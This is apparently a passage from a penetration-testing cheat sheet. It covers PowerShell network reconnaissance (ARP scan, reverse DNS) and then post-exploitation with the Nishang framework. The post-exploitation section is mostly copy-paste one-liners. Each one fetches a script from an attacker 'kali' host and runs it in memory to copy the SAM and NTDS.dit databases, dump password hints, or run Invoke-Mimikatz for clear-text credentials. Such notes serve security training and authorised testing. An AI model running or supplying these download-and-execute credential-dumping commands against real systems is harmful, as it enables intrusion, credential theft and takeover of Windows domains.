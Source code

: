 it may generate fewer alerts than your usual SYN or TCP scan
```powershell
Invoke-ARPScan -CIDR 192.168.13.1/24
```

Get-Command -Module Posh-SecMod
// to view the available options

### DNS related
```powershell
Invoke-ReverseDnsLookup -CIDR 192.168.13.0/24
Get-Help Resolve-HostRecord -Examples
Get-Help Resolve-DNSRecord -Examples
```


## Post-Exploitation with PowerShell

post-exploitation framework Nishang = https://github.com/samratashok/nishang

// as always, download the framework and host with a web server


- Nishang


### Copy-VSS module
will attempt to copy the SAM database using VSS service, and if run on a domain controller, will try and copy the NTDS.dit and contents of the system registry hive.

```powershell
iex (New-Object Net.WebClient).DownloadString("http://<kali ip>/Copy-VSS.ps1"); Copy-VSS
```

### Get-Information
get a lot of system information

```powershell
iex (New-Object Net.WebClient).DownloadString("http://<kali ip>/Get-Information.ps1"); Get-Information
```

### Get-PassHints
we can use to dump the saved password hints For users on the system:

```powershell
iex (New-Object Net.WebClient).DownloadString("http://<kali ip>/Get-PassHints.ps1"); Get-PassHints
```

### Invoke-Mimikatz
 Will dump clear-text credentials or hashes from memory.

```powershell
iex (New-Object Net.WebClient).DownloadString("http://<kali ip>/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -DumpCreds
```
